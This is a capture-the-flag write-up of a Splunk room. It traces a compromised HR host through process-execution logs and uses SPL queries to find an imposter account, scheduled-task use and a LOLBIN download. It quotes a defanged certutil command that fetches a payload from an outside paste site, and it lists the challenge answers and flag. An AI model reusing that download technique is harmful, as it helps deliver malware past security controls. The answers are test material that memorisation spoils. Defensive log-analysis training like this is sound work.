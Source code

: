 # Benign-THM-Challenge
Write-Up: Suspicious Process Execution Investigation

# Challenge room to investigate a compromised host.

## Objective
Learn more about Splunk and how to investigate the logs.
 Investigate a potential security incident flagged by an IDS, which identified suspicious process execution on an HR department host. 
 Initial findings suggested unauthorized network information gathering and scheduled task execution.

### Skills Learned

- Log Parsing and Analysis: I become familiar with using Splunk to search and filter logs based on specific fields like UserName, ProcessName, and CommandLine, helping to identify unusual or suspicious activity
- Searching for Rare Events: I practice using Splunk queries like rare values to identify outliers or anomalies, such as impersonation or abnormal process executions. This includes finding instances where common processes are being used in an unusual manner, like the use of LOLBINs (Living Off the Land Binaries)
- Investigating Process Execution: I get hands-on experience with process execution analysis, including tracking down which processes were executed by specific users, which is critical for understanding how an attack unfolded
- Identifying Malicious Behavior: By analyzing suspicious activity such as downloads from third-party sites or the execution of potentially malicious payloads.
- Timeline Creation: Splunk help me create a timeline of events related to the attack, such as when a suspicious binary was downloaded, which is useful for both incident response and forensic investigations

### Tools Used

- Splunk

## Solution Steps
Overview:

A host from the HR department was compromised, and suspicious activities were observed on the system. These activities included the execution of scheduled tasks, which confirmed the initial suspicion. The process execution logs were pulled using Event ID: 4688 and ingested into Splunk under the index win_eventlogs for further investigation.

The organization is divided into three departments:

```
IT Department: James, Moin, Katrina
HR Department: Haroon, Chris, Diana
Marketing Department: Bell, Amelia, Deepak

```

Questions & Answers:

**Question 1**: *How many logs are ingested from the month of March, 2022?*

To find the number of logs ingested from March 2022, change the date on the right top corner

Answer: 13,959 logs were ingested during the month of March 2022.

---

**Question 2:** Imposter Alert: There seems to be an imposter account observed in the logs. What is the name of that user?

To identify the imposter user, I searched for usernames not in the list of known users:

`index=win_eventlogs EventID=4688
NOT (UserName="James" OR UserName="Moin" OR UserName="Katrina" OR
UserName="Haroon" OR UserName="Chris" OR UserName="Diana" OR
UserName="Bell" OR UserName="Amelia" OR UserName="Deepak")
| stats count by UserName`

This returned the following suspicious usernames:
-Amel1a
-Chris.fort
-Daina


Answer: The imposter user is Amel1a.

We can Also use this type of queries

This command returns a unique list of values for a specific field.
Useful when you want to see all distinct values for a field (e.g., unique usernames).
`index=win_eventlogs EventID=4688
| stats values(UserName)`
or
This command counts the occurrences of events grouped by a specific field
Useful when you need to know how many times a specific field (like a user) appears in the logs.
`index=win_eventlogs EventID=4688
| stats count by UserName`

---

**Question 3**: Which user from the HR department was observed running scheduled tasks?

I searched for the execution of the scheduled tasks utility, schtasks.exe, which is commonly used for automated task management.

`index=win_eventlogs EventID=4688
| search ProcessName="*schtasks.exe*"`

Answer: The user who ran scheduled tasks is Chris.fort from the HR department.

---

**Question 4**: Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?

Certutil.exe is a Windows command-line tool used for managing certificates, but it can be exploited by attackers to download malicious payloads. I found Haroon executing the following command:

`index=win_eventlogs EventID=4688
| search ProcessName="*Certutil.exe*"`

Answer: Haroon executed the command:
certutil.exe -urlcache -f -  hxxps[://]controlc[.]com/e4d11035 benign.exe

---

**Question 5**: To bypass the security controls, which system process (LOLBIN) was used to download a payload from the internet?

Answer: The system process used to bypass security controls was Certutil.exe, as it is a legitimate Windows process often overlooked by security systems.

---

**Question 6**: What was the date that this binary was executed by the infected host?

The date of execution was found just below the command line in the logs.

Answer: 2022-03-04.

---

**Question 7:** Which third-party site was accessed to download the malicious payload?

From the command line, I identified the third-party site used for downloading the payload.

Answer:  controlc[.]com

---

**Question 8:** What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

The filename was included in the command line executed by Haroon.

Answer: The file saved was benign.exe.

---

**Question 9**: The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?

To find the pattern, I examined the URL provided in the command line, which pointed to the downloaded file.

Answer: The malicious content pattern is: THM{KJ&*H^B0}.

---

**Question 10:** What is the URL that the infected host connected to?

The URL was clearly visible in the executed command line.

Answer: The URL used to download the malicious payload is:
hxxps[://]controlc[.]com/e4d11035

---

**Conclusion**:

*The investigation involved identifying suspicious activities in the HR department's compromised host. By reviewing the logs and searching for specific execution patterns (e.g., use of Certutil.exe and schtasks.exe), we were able to determine the presence of a malicious user and the payload involved. The exploitation utilized a legitimate system tool to bypass security controls and download a payload from a third-party server.*

*Ref 1: Network Diagram*
